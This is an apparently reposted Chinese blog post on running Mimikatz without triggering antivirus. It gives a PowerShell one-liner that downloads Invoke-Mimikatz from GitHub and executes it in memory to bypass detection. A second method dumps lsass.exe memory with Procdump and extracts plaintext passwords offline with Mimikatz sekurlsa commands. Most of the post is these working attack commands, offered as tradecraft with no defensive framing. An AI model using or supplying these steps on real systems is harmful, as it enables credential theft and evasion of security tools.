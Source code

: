 +++
title = "Mimikatz免杀"
author = "Hzllaga"
date =  2018-08-03
description = "由于Powershell天然免杀，我们可以直接用Powershell命令去加载相应的脚本，下载后执行。这种方法是在内存中直接加载，能够绕过杀软的检测。"
categories = ["转载"]
tags = ["Mimikatz","免杀"]
+++
## Powershell
由于Powershell天然免杀，我们可以直接用Powershell命令去加载相应的脚本，下载后执行。这种方法是在内存中直接加载，能够绕过杀软的检测。
{{< highlight powershell >}}
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
{{< /highlight >}}

## Procdump + Mimikatz

今天事实上我用的是第二种方法，因为在加载Powershell时意外报了一个句柄错误，查资料也都是一头雾水，感觉好像就只有我碰到了这个问题，后来发现了一种方法，也能够绕过杀软

第一步，上传Procdump到服务器，Procdump是一个Windows Debug工具，而且是微软爸爸官方提供的，所以无论如何杀软都不会把这货列进黑名单的
{{< highlight powershell >}}
procdump.exe -accepteula -ma lsass.exe lsass.dmp
{{< /highlight >}}
![](https://cdn.wtfsec.org/img/20200223171521.jpg)

使用该命令来dump下lsass.exe进程的内存数据，并保存至lsass.dmp文件，然后为了绕过杀软，我们把这个数据包下**载到本地**来分析

使用Mimikatz来进行数据读取
{{< highlight powershell >}}
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
{{< /highlight >}}
即可提取到明文密码
![](https://cdn.wtfsec.org/img/20200223171602.jpg)
